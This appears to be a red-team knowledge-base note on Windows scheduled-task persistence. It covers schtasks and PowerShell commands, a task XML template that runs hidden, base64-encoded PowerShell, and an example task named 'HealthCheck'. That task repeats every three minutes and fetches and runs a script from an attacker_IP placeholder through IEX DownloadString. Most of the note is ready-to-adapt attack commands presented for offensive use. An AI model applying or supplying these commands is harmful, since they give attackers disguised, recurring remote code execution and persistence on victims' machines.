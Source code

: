 # Schedule Tasks

## 01 - Common Files

```
C:\Windows\System32\schtasks.exe
C:\Windows\SysWOW64\schtasks.exe
```

## 02 - Generate Payloads

### 2.1 - Schedule Task Payload

A template script to execute the payload.

TODO: Check which is the day and month in this XML file.

```xml
<Task version="1.4" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>This is a description</Description>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>yyyy-01-01Thh:mm:ss</StartBoundary>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Actions>
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-nop -w hidden -enc <base64_encoded></Arguments>
    </Exec>
  </Actions>
</Task>
```

### 2.2 - Export XML Payload

#### 2.2.1 - Command Prompt

```
C:\> schtasks.exe /query /xml /tn "<task_name>" > schedule.xml
```

#### 2.2.2 - PowerShell

```
PS C:> Export-ScheduledTask "<task_name>" | Out-File -Encoding ascii payload.xml

PS C:> Export-ScheduledTask "<task_name>" | Out-File -Encoding utf8 payload.xml

PS C:> Export-ScheduledTask "<task_name>" | Out-File -Encoding unicode payload.xml
```

## 03 - Execute Payloads

### 3.1 - Command Prompt

TODO: Use batch scripting one liner by using environment variables to trigger the payload with time delay such as 3 minutes

```
C:\> schtasks.exe /create /mo 1 /sc minute /tn "<task_name>" /tr "<commands>"
```

Import the XML to schedule the task by executing the payload.

> [!TIP]
> Best to create a script to automate the whole process since it requires time duration in order to trigger it.

```
C:\> schtasks.exe /create /xml /tn "<task_name>" payload.xml
```

### 3.2 - PowerShell

```powershell
PS C:\> $action = New-ScheduledTaskAction -Execute "<command>" -Argument "<arguments>"

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 3)
$settings = New-ScheduledTaskSettingsSet -RunOnlyIfNetworkAvailable -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "<task_name>"
```

Let's use [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/PowerShell|PowerShell]] as example.

```powershell
PS C:\> $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle hidden -c `"IEX (New-Object Net.WebClient).DownloadString('http[s]://<attacker_IP>/payload.ps1')`""

$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 3)
$settings = New-ScheduledTaskSettingsSet -RunOnlyIfNetworkAvailable -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "HealthCheck"
```

Import the XML to schedule the task by executing the payload.

> [!TIP]
> Best to create a script to automate the whole process since it requires time duration in order to trigger it.

```
PS C:\> Register-ScheduledTask -TaskName "<task_name>" -Xml (Get-Content '.\payload.xml' | Out-String) -Force

PS C:\> Register-ScheduledTask -TaskName "<task_name>" -Xml (Get-Content '.\payload.xml' -Raw) -Force
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Windows/Host Persistence/Backdoors/Schedule Tasks/Schtasks/Manual/Living off the Land|Maintaining Access: Schedule Tasks Persistence]]